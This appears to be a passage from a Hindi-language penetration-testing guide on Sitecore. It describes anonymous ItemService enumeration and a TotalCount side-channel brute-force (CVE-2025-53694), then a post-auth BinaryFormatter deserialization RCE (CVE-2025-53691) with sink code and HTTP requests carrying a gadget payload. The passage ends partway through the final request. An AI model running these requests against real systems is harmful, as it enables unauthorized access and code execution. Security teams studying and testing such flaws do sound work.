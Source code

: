 यदि ItemService (गलत तरीके से) अनाम रूप से एक्सपोज़ है, तो आप सटीक keys निकालने के लिए कैशेबल components को सूचीबद्ध कर सकते हैं।

त्वरित जांच:
```
GET /sitecore/api/ssc/item
// 404 Sitecore error body → exposed (anonymous)
// 403 → blocked/auth required
```
कैश करने योग्य आइटम और फ़्लैग सूचीबद्ध करें:
```
GET /sitecore/api/ssc/item/search?term=layouts&fields=&page=0&pagesize=100
```
Path, Cacheable, VaryByDevice, VaryByLogin, ClearOnIndexUpdate जैसे फ़ील्ड खोजें। डिवाइस नामों को निम्नलिखित के माध्यम से सूचीबद्ध किया जा सकता है:
```
GET /sitecore/api/ssc/item/search?term=_templatename:Device&fields=ItemName&page=0&pagesize=100
```
### Side‑channel enumeration under restricted identities (CVE-2025-53694)

भले ही ItemService किसी सीमित खाते (e.g., ServicesAPI) की नकल करे और खाली Results array लौटाए, TotalCount फिर भी pre‑ACL Solr hits को दर्शा सकता है। आप wildcards के साथ item groups/ids को brute‑force कर सकते हैं और TotalCount के converge होते हुए internal content और devices का मानचित्र बनते देख सकते हैं:
```
GET /sitecore/api/ssc/item/search?term=%2B_templatename:Device;%2B_group:a*&fields=&page=0&pagesize=100&includeStandardTemplateFields=true
→ "TotalCount": 3
GET /...term=%2B_templatename:Device;%2B_group:aa*
→ "TotalCount": 2
GET /...term=%2B_templatename:Device;%2B_group:aa30d078ed1c47dd88ccef0b455a4cc1*
→ narrow to a specific item
```
## Post‑auth RCE: BinaryFormatter sink convertToRuntimeHtml में (CVE-2025-53691)

Sink:
```csharp
// Sitecore.Convert
byte[] b = Convert.FromBase64String(data);
return new BinaryFormatter().Deserialize(new MemoryStream(b));
```
यह convertToRuntimeHtml pipeline step ConvertWebControls के माध्यम से पहुँच योग्य है, जो id {iframeId}_inner वाले element को ढूंढता है और उसे base64 decodes + deserializes करके resulting string को HTML में inject कर देता है:
```csharp
HtmlNode inner = doc.SelectSingleNode("//*[@id='"+id+"_inner']");
string text2   = inner?.GetAttributeValue("value", "");
if (text2.Length > 0)
htmlNode2.InnerHtml = StringUtil.GetString(Sitecore.Convert.Base64ToObject(text2) as string);
```
ट्रिगर (प्रमाणीकृत, Content Editor अधिकार)। FixHtml डायलॉग convertToRuntimeHtml को कॉल करता है। UI क्लिक के बिना एंड‑टू‑एंड:
```
// 1) Start Content Editor
GET /sitecore/shell/Applications/Content%20Editor.aspx

// 2) Load malicious HTML into EditHtml session (XAML event)
POST /sitecore/shell/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.EditHtml.aspx
Content-Type: application/x-www-form-urlencoded

__PARAMETERS=edithtml:fix&...&ctl00$ctl00$ctl05$Html=
<html>
<iframe id="test" src="poc" value="poc"></iframe>
<test id="test_inner" value="BASE64_GADGET"></test>
```